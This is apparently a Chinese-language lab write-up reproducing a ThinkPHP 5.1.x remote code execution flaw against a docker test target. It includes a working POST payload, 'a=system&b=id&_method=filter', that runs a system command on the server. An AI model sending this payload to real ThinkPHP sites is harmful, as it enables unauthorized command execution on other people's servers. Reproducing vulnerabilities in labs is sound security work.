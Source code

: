 ## Thinkphp5.1.x 远程漏洞执行漏洞复现

### 一、环境准备
使用vsplate(https://www.vsplate.com/new.php) 的docker快速搭建平台，填入github地址（eg. https://github.com/wdan-code/vuln） 即可快速搭建靶机

![image](https://user-images.githubusercontent.com/30569668/128801997-c5f8882d-ddeb-47c0-a170-e170854a8d7d.png)




### 二、工具准备
使用的Hacker(https://github.com/Mr-xn/hackbar2.1.3) 浏览器插件

![image](https://user-images.githubusercontent.com/30569668/128801110-dfbdd6b2-fe89-45de-a2ac-308379ee76d2.png)




### 三、复现过程
注：针对于这个版本有点鸡肋，需要index.php文件中跳过报错提示（我的github仓库已修改，直接拉取即可）
语句：error_reporting(0);
Payload：a=system&b=id&_method=filter

![image](https://user-images.githubusercontent.com/30569668/128801826-ef08cf34-b3f7-417a-82e6-0dc96ea6a671.png)
